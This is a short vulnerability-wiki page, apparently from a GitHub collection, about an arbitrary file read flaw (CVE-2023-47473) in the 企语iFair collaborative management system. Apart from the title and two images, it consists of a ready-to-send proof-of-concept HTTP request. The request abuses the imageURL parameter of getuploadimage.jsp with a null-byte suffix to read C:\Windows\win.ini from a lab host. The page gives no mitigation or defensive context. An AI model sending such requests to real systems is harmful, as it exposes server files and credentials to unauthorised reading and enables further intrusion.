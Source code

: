 ## 企语iFair协同管理系统任意文件读取(CVE-2023-47473)

![image](https://github.com/wy876/wiki/assets/139549762/cadf9f4e-4296-41bf-bfd2-72d814dbd1ac)


## poc
```
GET /oa/common/components/upload/getuploadimage.jsp?imageURL=C:\Windows\win.ini%001.png HTTP/1.1
Host: 192.168.182.138:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5758.195 Safari/537.36 OPR/100.0.2916.45
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=11324C3BF3D3A2D6EDD273C373AF7A65
Connection: close
```

![95694a6b4152d04fbb78cc907d7e4e46](https://github.com/wy876/wiki/assets/139549762/4226d967-e876-493e-8e94-190a95006fe2)
